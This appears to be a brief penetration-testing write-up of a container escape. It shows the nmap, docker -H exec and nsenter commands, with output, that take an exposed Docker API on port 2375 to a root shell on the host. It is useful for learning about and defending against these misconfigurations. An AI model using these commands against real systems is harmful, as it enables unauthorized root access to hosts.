 # Abusing docker misconfiguration
I took advantage of chained misconfiguration to escape the container and get access to the host OS
## First misconfiguration
The container was externally exposed

    nmap -sV -p 2375 192.168.1.100
    ...
    PORT     STATE SERVICE VERSION
    2375/tcp open  docker  Docker 20.10.20 (API 1.41)
    Service Info: OS: linux
Find remote running containers

    docker -H tcp://192.168.1.100:2375 ps                             
    CONTAINER ID   IMAGE     ...   
    2225bfdee7ec   devsrv01  ...       

Get a shell inside the remote container

    docker -H tcp://192.168.1.100:2375 exec -it 2225bfdee7ec /bin/bash
    root@2225bfdee7ec:/etc/ssh#     
## Inspect the container

    root@2225bfdee7ec:/etc/ssh# ps aux
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root           1  0.0  0.5 102540 11388 ?        Ss   13:14   0:03 /sbin/init
    ...
There are a total of 191 of running process, very strange for a container: maybe the container is sharing the same namespace with the host? That would imply the container can communicate with the processes on the host.


## Abusing the second misconfiguration: shared namespace
Here we are abusing <b>nsenter</b> command, that allows us to execute a processes in a differen namespace. 
In this scenario, since the container can see the <i>/sbin/init</i> process on the host machine, we can try to execute a shell on the host context. Let's give it a try: 

    root@2225bfdee7ec:/etc/ssh# hostname
    2225bfdee7ec
    root@2225bfdee7ec:/etc/ssh# nsenter --target 1 --mount --uts --ipc --net /bin/bash
    root@xxxxx.local:/# whoami
    root
And here we are!
For more information on the nsenter (namespace enter) command you can consult the related manual.
 

## A final note
Actually I faced this scenario two days ago (17/09/2024) on a real engagement.
